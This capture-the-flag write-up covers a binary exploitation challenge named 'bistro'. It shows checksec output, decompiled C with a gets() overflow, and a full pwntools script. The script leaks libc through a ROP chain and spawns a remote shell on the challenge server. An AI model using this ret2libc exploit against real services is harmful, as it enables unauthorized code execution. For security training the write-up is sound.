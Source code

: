 ## Challenge Description

Maybe you can get a free menu!!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```  
$ checksec restaurant  
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH
RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE  
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No
RUNPATH   70 Symbols        No    0               2               restaurant  
```  
Partial RELRO and no PIE. Great! Let's decompile:

```c  
undefined8 custom(void)  
{  
 char local_78 [112];  
  
 printf("Choose what you want to eat:");  
 gets(local_78);  
 gets(local_78);  
 return 0;  
}

undefined8 main(EVP_PKEY_CTX *param_1)  
{  
 int local_c;  
  
 init(param_1);  
 puts("==============================");  
 puts("              MENU             ");  
 puts("==============================");  
 puts("1. Chessburger...............2$");  
 puts("2. Hamburger.................3$");  
 puts("3. Custom dinner............10$");  
 printf(">> ");  
 __isoc99_scanf(&DAT_0040098c,&local_c);  
 if (local_c == 2) {  
   puts("2. Hamburger.................3$");  
 }  
 else {  
   if (local_c == 3) {  
     custom();  
   }  
   else if (local_c == 1) {  
     puts("1. Chessburger...............2$");  
     return 0;  
   }  
   puts("Wrong choice");  
 }  
 return 0;  
}  
```  
We see an obvious buffer overflow in ``custom``. We simply need to ROP into
leaking the libc addresses with puts.

### Solution

```py  
#!/usr/bin/env python3

from pwn import *

#target = process("./restaurant")  
target = remote("35.198.129.115", 31756)

# Get addresses with ROPGadget  
pop_rdi = p64(0x00000000004008a3)  
ret = p64(0x000000000040059e) # for aligning stack to 16-bytes again for
system call

# Addresses from the binary  
main_addr = p64(0x0040072a)  
puts_plt = p64(0x004005b0)  
puts_got = p64(0x00601018)

# Leak puts address  
target.sendline(b"3")  
payload = b"a" * 0x78 + pop_rdi + puts_got + puts_plt + main_addr # go back to
main for more inputs  
target.sendline(payload)  
print(target.recvuntil(b">>"))  
puts_leak = u64(target.recvline().strip().split(b':')[1].ljust(8, b'\x00'))  
print(puts_leak)  
print(hex(puts_leak))

# Find the libc version at some point here manually

system_addr = p64(puts_leak - 0x31550) # offset found in libc database  
print(system_addr)

# Get offset to /bin/sh from libc database  
sh_addr = p64(puts_leak + 0x13337a)

payload = b"a" * 0x78 + ret + pop_rdi + sh_addr + system_addr

# Pop a shell, baby  
target.sendline(payload)  
target.interactive()  
```

#### Flag

```CTF{33be4238b68642a4c3f97d10cfa034764e0b6d9707d6970f581200e2b7bcbfc0}```

Original writeup (https://dothidden.xyz/defcamp_quals_2023/bistro/).